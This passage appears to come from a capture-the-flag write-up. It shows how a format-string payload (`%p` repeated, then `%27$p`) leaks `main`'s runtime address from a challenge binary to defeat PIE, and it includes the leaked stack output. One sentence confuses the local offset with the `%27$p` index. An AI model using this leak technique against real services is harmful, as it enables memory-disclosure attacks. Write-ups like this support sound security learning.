 ### Leak `.text` addresses
First, we leak the `main` address to defeat `PIE`.  
To do so, we can make use of `p.sendlineafter(b"late enrollment:", b"%p \n" * 0x20)` and look around for address ending with `main`'s offset i.e. `0000000000001532`. Therefore, I see stuff ending with `532` and I counted until that e.g. `0x55a2c6f4e532`  
Again let's look at the output:  
```
[*] Switching to interactive mode
7f3cbc11c723 
(nil) 
0x7f3cbc03d297 
0x1c 
0xd 
0x400000050 
0x55a2c78932a0 
0x796d6d7564 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
(nil) 
0x55a2c6f4e180 
0xfd163a675f837100 
0x7ffeb9a14110 
0x55a2c6f4e59e 
(nil) 
0x7f3cbbf53083 
0x7f3cbc152620 
0x7ffeb9a14208 
0x100000000 
0x55a2c6f4e532 
0x55a2c6f4e5b0 
0x9445bfec4b4b384f 
0x55a2c6f4e180 
0x7ffeb9a14200 
(nil)
``` 
In the case of the challenge, the runtime address of `main` would be at the 27th location of the output of `p.sendlineafter(b"late enrollment:", b"%p \n" * 0x20)`. Therefore, `%27$p` would be able to get it.   
Be aware that with different libc version, the positioning of those addresses on the stack could be a bit different. For example, my first try was done locally before getting correct libc, `main` address was at the 25th position which `%27$p` would have to used to get it. So in order to leak them correctly before having the right libc version downloaded, we have to connect to the remote first and print things out with `%p` to leak correctly.   

Once we get a `.text`, like `main` address, all we need to do is to calculate the base address in `PIE` enabled program by subtracting the corresponding offset of `main` from the base i.e., again just `0001532` in this case
